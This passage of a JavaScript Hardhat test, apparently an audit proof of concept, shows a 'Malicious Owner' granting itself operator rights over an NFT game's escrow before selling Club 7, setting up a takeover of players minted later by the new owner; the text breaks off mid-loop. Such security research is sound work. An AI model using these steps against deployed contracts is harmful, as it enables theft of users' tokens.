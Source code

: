 ```solidity
    });

    it("can transfer Players to previous owner", async () => {
        console.log("Owner address: ", owner.address);
        console.log("New Owner address: ", newOwner.address);
        console.log("Escrow address: ", escrow.address);
        console.log("\n");
        console.log(
            "Approve the Malicious Owner as operator on Escrow for Player contract"
        );
        await escrow
            .connect(owner)
            .setApprovalForERC721(players.address, owner.address, true);

        expect(
            await players.isApprovedForAll(escrow.address, owner.address)
        ).to.eq(true);

        console.log("Ownership of Club 7 changes from Owner to newOwner");
        await clubs
            .connect(owner)
            .transferFrom(owner.address, newOwner.address, 7);

        expect(await clubs.ownerOf(7)).to.eq(newOwner.address);

        console.log("Mint a new Player for the newOwner");
        const clubDivProof = clubDivsTree.getHexProof(
            hashClubDivisionInputs([7, 4])
        );

        const divisionFees = getDivisionMintingFees(divFeeMetadata);

        const divisionTier = 4;
        const generationIds = [0, 1, 2, 3, 4, 5, 6];
        const ethAmount = ethers.BigNumber.from(divisionFees[0]).mul(
            generationIds.length
        );

        const prevBalance = await players.balanceOf(escrow.address);

        await academy
            .connect(newOwner)
            .mintPlayers(1, 7, divisionTier, generationIds, clubDivProof, {
                value: ethAmount,
            });

        expect(await players.balanceOf(escrow.address)).to.eq(
            prevBalance.add(generationIds.length)
        );

        console.log(
            "Previous Balance: ",
            prevBalance.toString(),
            "New Balance: ",
            (await players.balanceOf(escrow.address)).toString()
        );

        for (let i = 0; i < generationIds.length; i++) {
            console.log(
                "Owner of Player ",
                i,
                " is ",
                await players.ownerOf(i)
```